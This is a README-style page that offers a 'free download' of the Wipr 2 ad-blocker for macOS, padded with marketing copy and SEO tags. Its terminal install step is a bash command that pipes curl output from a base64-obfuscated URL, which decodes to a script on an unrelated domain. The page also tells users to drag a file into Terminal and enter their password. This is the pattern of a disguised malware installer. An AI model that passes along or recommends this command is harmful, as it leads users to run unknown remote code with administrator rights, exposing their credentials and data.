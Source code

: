 # Wipr 2 — Free Download for macOS
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcStLVeMZHpX5_yRTLJD9KpKYn7Y8DFvZf4STw&s)

Effortlessly download and install Wipr 2, a powerful ad-blocker for macOS, to enjoy a seamless, distraction-free browsing experience. Follow the step-by-step guide below to get started! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/wipr2)

If the download button doesn’t work, follow the terminal command instructions below for a smooth installation.

## 📦 How to Install Wipr 2 for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Wipr 2

- 🚀 **Fast Browsing**: Blocks intrusive ads and trackers to speed up your web experience.
- 🔒 **Enhanced Privacy**: Prevents websites from tracking your activity across the internet.
- 🧹 **Clean Interface**: Removes pop-ups, banners, and video ads for distraction-free browsing.
- ⚙️ **Customizable Settings**: Tailor Wipr 2’s blocking preferences to suit your needs.
- 🔄 **Automatic Updates**: Stay protected with regular updates to ad-blocking filters.
- 💻 **Lightweight Design**: Minimal system resource usage for smooth performance on macOS.

## About Wipr 2

Wipr 2 is a leading ad-blocking solution designed specifically for macOS, offering a seamless way to enhance your browsing experience. By eliminating intrusive advertisements, pop-ups, and trackers, Wipr 2 ensures faster page load times and a cleaner interface. Whether you're browsing social media, reading articles, or shopping online, this software keeps your experience smooth and distraction-free. Its lightweight design means it runs efficiently in the background, making it ideal for both casual users and professionals who rely on a clutter-free web environment.

The software’s robust privacy features set it apart from competitors. Wipr 2 blocks trackers that collect your personal data, ensuring your online activities remain private. With growing concerns about data security, this ad-blocker provides peace of mind by safeguarding your browsing habits from third-party surveillance. Its compatibility with Safari and other macOS browsers makes it a versatile tool for users seeking a secure and streamlined internet experience.

Wipr 2 is also highly customizable, allowing users to fine-tune their ad-blocking preferences. Whether you want to allow certain ads on trusted websites or block everything, the software gives you full control. Its user-friendly interface makes setup and configuration a breeze, even for those new to ad-blocking tools. Regular updates ensure that Wipr 2 stays ahead of new ad formats and tracking methods, keeping your browsing experience consistently smooth.

Another standout feature is Wipr 2’s commitment to performance. Unlike some ad-blockers that slow down your system, Wipr 2 is designed to use minimal CPU and memory resources. This makes it an excellent choice for older Macs or devices with limited processing power. By focusing on efficiency, Wipr 2 ensures that your macOS device remains fast and responsive, even during extended browsing sessions.

### Why Choose Wipr 2?
Wipr 2 stands out for its simplicity, effectiveness, and macOS optimization. Unlike browser extensions that can be clunky or unreliable, Wipr 2 integrates seamlessly with your system, providing consistent ad-blocking across multiple browsers. Its automatic filter updates save you time, while its privacy-first approach ensures your data stays secure. For anyone looking to download a free, reliable ad-blocker for macOS, Wipr 2 is a top choice that delivers on both performance and user experience.

## 🖼 Preview

![Wipr 2 Interface](https://lh7-rt.googleusercontent.com/docsz/AD_4nXcE-k3hwMe67AD70qtJi7-is0M-fcBRl3rFBZeOv9_ZRCN5uFNiTj1H0hqU6patlhbo8Cgb7xBhV0hfS1RMOeQK3GovYgHKBooljmXnLeMCtigJsGMGKk8ufNZkGGVqzMuDQDeX?key=AKdBa82gQmxs7BVRzpqHC9UH)
*Clean and intuitive Wipr 2 dashboard for easy configuration.*

![Ad-Free Browsing](https://www.zhiniw.com/wp-content/uploads/2025/07/wipr-2-mac-preview-02.jpg)
*Enjoy a clutter-free browsing experience with Wipr 2.*

## 🔍 Tags
Wipr 2, free download Wipr, Wipr 2 free, block ads mac, download Wipr macOS, Wipr 2 download, Wipr 2 free download, Wipr 2 download free, Wipr 2 for mac, Wipr 2 free for mac, download Wipr 2, download Wipr 2 free, Wipr 2 for mac os
